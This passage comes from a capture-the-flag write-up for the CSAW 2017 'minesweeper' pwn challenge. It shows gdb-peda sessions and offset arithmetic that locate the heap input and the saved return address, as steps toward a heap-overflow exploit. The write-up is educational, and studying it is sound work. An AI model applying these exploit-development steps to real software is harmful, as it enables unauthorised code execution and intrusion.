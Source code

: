 So we can see we that we overflowed `edx` with four `8`s, and overflowed `eax+0x8` with four `7`s (I know the last octet is different, that is due to some operations that happen after our overflow). As a result from the start of our input, there is `92` bytes untill we overflow the value which will be stored in `edx`, and `88` bytes untill we overflow the value which will be stored in `eax+0x8`.

##### Infoleak Pointers

The last two things which we need to know are the offset from the start of the heap to the start of our input in the heap for the board which will overflow it, and the offset from our stack leak to the return address. To figure out the first, we can just see the difference between where our input in the previous `input offset` and the star of the heap is:

```
gdb-peda$ find XXXXXzzzzzzzzzzzz
Searching for 'XXXXXzzzzzzzzzzzz' in: None ranges
Found 1 results, display max 1 items:
[heap] : 0x804c048 ("XXXXX", 'z' <repeats 55 times>, "000011112222333344445555\022")
gdb-peda$ vmmap
Start      End        Perm	Name
0x08048000 0x0804b000 r-xp	/Hackery/csaw17/pwn/minesweeper/minesweeper
0x0804b000 0x0804c000 rwxp	/Hackery/csaw17/pwn/minesweeper/minesweeper
0x0804c000 0x0804d000 rwxp	[heap]
0xf7dff000 0xf7e00000 rwxp	mapped
0xf7e00000 0xf7fb0000 r-xp	/lib/i386-linux-gnu/libc-2.23.so
0xf7fb0000 0xf7fb2000 r-xp	/lib/i386-linux-gnu/libc-2.23.so
0xf7fb2000 0xf7fb3000 rwxp	/lib/i386-linux-gnu/libc-2.23.so
0xf7fb3000 0xf7fb6000 rwxp	mapped
0xf7fd3000 0xf7fd4000 rwxp	mapped
0xf7fd4000 0xf7fd7000 r--p	[vvar]
0xf7fd7000 0xf7fd9000 r-xp	[vdso]
0xf7fd9000 0xf7ffc000 r-xp	/lib/i386-linux-gnu/ld-2.23.so
0xf7ffc000 0xf7ffd000 r-xp	/lib/i386-linux-gnu/ld-2.23.so
0xf7ffd000 0xf7ffe000 rwxp	/lib/i386-linux-gnu/ld-2.23.so
0xfffdd000 0xffffe000 rwxp	[stack]
```

and with a bit of Python, we can see what the difference is:

```
>>> hex(0x804c048 - 0x0804c000)
'0x48'
```

So we know the offset between the start of the heap and our input is `0x48`. Next we need to find the offset between our stack leak and th return address. For that, we can just pick up in gdb from where we left off and look at where the return address is:

```
gdb-peda$ i f
Stack level 0, frame at 0xffffce10:
 eip = 0x8049855; saved eip = 0x80499ea
 called by frame at 0xffffce50
 Arglist at 0xffffce08, args: 
 Locals at 0xffffce08, Previous frame's sp is 0xffffce10
 Saved registers:
  ebp at 0xffffce08, eip at 0xffffce0c
```
